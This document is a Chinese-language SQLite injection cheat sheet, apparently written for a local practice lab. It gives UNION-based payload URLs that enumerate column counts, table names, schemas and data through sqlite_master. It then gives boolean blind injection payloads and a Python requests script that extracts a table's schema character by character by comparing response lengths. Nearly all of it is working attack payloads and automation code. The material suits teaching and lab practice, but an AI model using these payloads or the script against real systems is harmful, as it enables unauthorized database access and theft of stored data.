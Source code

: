 # sqlite注入
[TOC]
## union注入
1. 获取字段长度

```
http://127.0.0.1/sqlite-lab/index.php?snumber=1 union select 1,2,3,4,5-- -
```

2. 获取表名
```
http://127.0.0.1/sqlite-lab/index.php?snumber=1337 union SELECT 1,group_concat(tbl_name),3,4,5 FROM sqlite_master  WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 1-- - 
```
> select * from table limit 2 offset 1;      
//含义是从第1条（不包括）数据开始取出2条数据，limit后面跟的是2条数据，offset后面是从第1条开始读取，即读取第2,3条。通过修改offset 1获取不同表数据

3. 获取列名
```
http://127.0.0.1/sqlite-lab/index.php?snumber=1337 union SELECT 1,sql,3,4,5 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='users'-- -
```
>能把表结构直接爆出来，通过下面语句清除表类型
```
http://127.0.0.1/sqlite-lab/index.php?snumber=1337 union select 1,replace(replace(replace(replace(replace(replace(replace(replace(replace(r eplace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')% 2b1)),'`')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARYKEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~'),3,4,5 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' and name='users'  
```
4. 获取数据
```
http://127.0.0.1/sqlite-lab/index.php?snumber=1337 union SELECT 1,OS,3,4,5 FROM users
```
## 布尔值注入
1. 统计表个数
```
http://127.0.0.1/sqlite-lab/index.php?tag=111' or (SELECT count(tbl_name) FROM sqlite_master  WHERE type='table' and tbl_name NOT like 'sqlite_%'  ) = 5 -- - 
```
2. 获取第一个表名长度
```
http://127.0.0.1/sqlite-lab/index.php?tag=111' or (SELECT length(tbl_name) FROM sqlite_master  WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0) = 5-- -
```
3. 获取第一个表名第一个字符
```
http://127.0.0.1/sqlite-lab/index.php?tag=1111111' or(SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master  WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('a')-- -
```
4. 获取列名
```
http://www.123.com/sqlite-lab/?tag=11111' or (SELECT substr(hex(sql),1,1) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='info')='4' -- -&search=1 
```
>435245415445205441424C452022696E666F2220280A09606E756D6265726009494E5445474552205052494D415259204B4559204155544F494E4352454D454E5420554E495155452C0A09604F536009544558542C0A09605365727665725F49506009544558542C0A0960507269636560094E554D455249432C0A09605461676009544558540A29 转换一下
CREATE TABLE "info" (
	`number`	INTEGER PRIMARY KEY AUTOINCREMENT UNIQUE,
	`OS`	TEXT,
	`Server_IP`	TEXT,
	`Price`	NUMERIC,
	`Tag`	TEXT
)

脚本如下：

```
import requests
import string
url="http://www.123.com/sqlite-lab/"
guess = string.digits+string.ascii_uppercase
print(guess)
right_data={'tag':"11111' or (SELECT substr(hex(sql),1,1) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='info')='4' -- -",'search':'1' }
wrong_data={'tag':"11111' or (SELECT substr(hex(sql),1,1) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='info')='3' -- -",'search':'1' }
right_response_len = len(requests.post(url,right_data).content)
wrong_response_len = len(requests.post(url,wrong_data).content)

flag = ""
key=0
print("Start")
for i in range(1,1000):
    if key == 1:
        break
    for payload in guess:
        tag = "11111' or (SELECT substr(hex(sql),%s,1) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%%' AND name ='info')='%s' -- -" %(i,payload)
        data={'tag':tag,'search':'1'}
        cur_res = requests.post(url,data)
        cur_res_len = len(cur_res.text)
        # print cur_res_len
        if cur_res_len == right_response_len:    #比较返回包的大小
            flag += payload
            print("pwd is:%s"%flag)
            break
        else:
            if payload == 'Z':
                key = 1
                break
print('[Finally] current table is %s'% flag)
```